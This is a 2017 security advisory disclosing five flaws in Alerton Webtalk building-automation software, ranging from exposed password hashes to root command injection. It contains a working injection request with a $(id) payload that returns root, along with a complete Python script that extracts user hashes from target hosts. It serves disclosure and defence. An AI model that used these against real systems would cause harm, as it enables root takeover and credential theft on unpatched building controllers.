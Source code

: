 ```yaml
---
layout: post
title: "Security Issues in Alerton Webtalk (Auth Bypass, RCE)"
category: Security
date: 2017-04-27
tags:
  - disclosure
  - security
---
```


Introduction
------------

Vulnerabilities were identified in the Alerton Webtalk Software supplied by
Alerton.  This software is used for the management of building automation
systems.  These were discovered during a black box assessment and therefore
the
vulnerability list should not be considered exhaustive.  Alerton has
responded
that Webtalk is EOL and past the end of its support period.  Customers
should
move to newer products available from Alerton.  Thanks to Alerton for prompt
replies in communicating with us about these issues.

Versions 2.5 and 3.3 were both confirmed to be affected by these issues.

(This blog post is a duplicate of the
[advisory I sent to the full-disclosure mailing list](http://seclists.org/fulldisclosure/2017/Apr/105).)

Webtalk-01 - Password Hashes Accessible to Unauthenticated Users
----------------------------------------------------------------

Severity: **High**

Password hashes for all of the users configured in Alerton Webtalk are
accessible via a file in the document root of the ‘webtalk’ user.  The
location
of this file is configuration dependent, however the configuration file is
accessible as well (at a static location, /~webtalk/webtalk.ini).  The
password
database is a sqlite3 database whose name is based on the bacnet rep and job
entries from the ini file.

A python proof of concept to reproduce this issue is in an appendix.

Recommendation: Do not store sensitive data within areas being served by the
webserver.

Webtalk-02 - Command Injection for Authenticated Webtalk Users
--------------------------------------------------------------

Severity: **High**

Any user granted the “configure webtalk” permission can execute commands as
the
root user on the underlying server.  There appears to be some effort of
filtering command strings (such as rejecting commands containing pipes and
redirection operators) but this is inadequate.  Using this vulnerability, an
attacker can add an SSH key to the root user’s authorized_keys file.

~~~
GET
/~webtalk/WtStatus.psp?c=update&updateopts=&updateuri=%22%24%28id%29%22&update=True
HTTP/1.1
Host: test-host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101
Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: NID=...; _SID_=...; OGPC=...:
Connection: close
Upgrade-Insecure-Requests: 1
~~~

~~~
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2017 20:34:26 GMT
Server: Apache
cache-control: no-cache
Set-Cookie: _SID_=...; Path=/;
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 2801

...
uid=0(root) gid=500(webtalk) groups=500(webtalk)
...
~~~

Recommendation: User input should be avoided to shell commands.  If this is
not
possible, shell commands should be properly escaped.  Consider using one of
the
functions from the subprocess module without the shell=True parameter.

Webtalk-03 - Cross-Site Request Forgery
---------------------------------------

Severity: **High**

The entire Webtalk administrative interface lacks any controls against
Cross-Site Request Forgery.  This allows an attacker to execute
administrative
changes without access to valid credentials.  Combined with the above
vulnerability, this allows an attacker to gain root access without any
credentials.

Recommendation: Implement CSRF tokens on all state-changing actions.

Webtalk-04 - Insecure Credential Hashing
----------------------------------------

Severity: **Moderate**

Password hashes in the userprofile.db database are hashed by concatenating
the
password with the username (e.g., PASSUSER) and performing a plain MD5
hash.  No
salts or iterative hashing is performed.  This does not follow password
hashing
best practices and makes for highly practical offline attacks.

Recommendation: Use scrypt, bcrypt, or argon2 for storing password hashes.

Webtalk-05 - Login Flow Defeats Password Hashing
------------------------------------------------

Severity: **Moderate**

Password hashing is performed on the client side, allowing for the replay of
password hashes from Webtalk-01.  While this only works on the mobile login
interface (“PDA” interface, /~webtalk/pda/pda_login.psp), the resulting
session
is able to access all resources and is functionally equivalent to a login
through the Java-based login flow.

Recommendation: Perform hashing on the server side and use TLS to protect
secrets
in transit.


Timeline
--------

- 2017/01/?? - Issues Discovered
- 2017/01/26 - Issues Reported to security () honeywell com
- 2017/01/30 - Initial response from Alerton confirming receipt.
- 2017/02/04 - Alerton reports Webtalk is EOL and issues will not be fixed.
- 2017/04/26 - This disclosure

Discovery
---------

These issues were discovered by David Tomaschik of the Google ISA
Assessments
team.

Appendix A: Script to Extract Hashes
------------------------------------

~~~python
import requests
import sys
import ConfigParser
import StringIO
import sqlite3
import tempfile
import os


def get_webtalk_ini(base_url):
    """Get the webtalk.ini file and parse it."""
    url = '%s/~webtalk/webtalk.ini' % base_url
    r = requests.get(url)
    if r.status_code != 200:
        raise RuntimeError('Unable to get webtalk.ini: %s', url)
    buf = StringIO.StringIO(r.text)
    parser = ConfigParser.RawConfigParser()
    parser.readfp(buf)
    return parser


def get_db_path(base_url, config):
    rep = config.get('bacnet', 'rep')
    job = config.get('bacnet', 'job')
    url = '%s/~webtalk/bts/%s/%s/userprofile.db'
    return url % (base_url, rep, job)


def load_db(url):
    """Load and read the db."""
    r = requests.get(url)
    if r.status_code != 200:
        raise RuntimeError('Unable to get %s.' % url)
    tmpfd, tmpname = tempfile.mkstemp(suffix='.db')
    tmpf = os.fdopen(tmpfd, 'w')
    tmpf.write(r.content)
    tmpf.close()
    con = sqlite3.connect(tmpname)
    cur = con.cursor()
    cur.execute("SELECT UserID, UserPassword FROM tblPassword")
    results = cur.fetchall()
    con.close()
    os.unlink(tmpname)
    return results


def users_for_server(base_url):
    if '://' not in base_url:
        base_url = 'http://%s' % base_url
    ini = get_webtalk_ini(base_url)
    db_path = get_db_path(base_url, ini)
    return load_db(db_path)


if __name__ == '__main__':
    for host in sys.argv[1:]:
        try:
            users = users_for_server(host)
        except Exception as ex:
            sys.stderr.write('%s\n' % str(ex))
            continue
        for u in users:
            print '%s:%s' % (u[0], u[1])
~~~
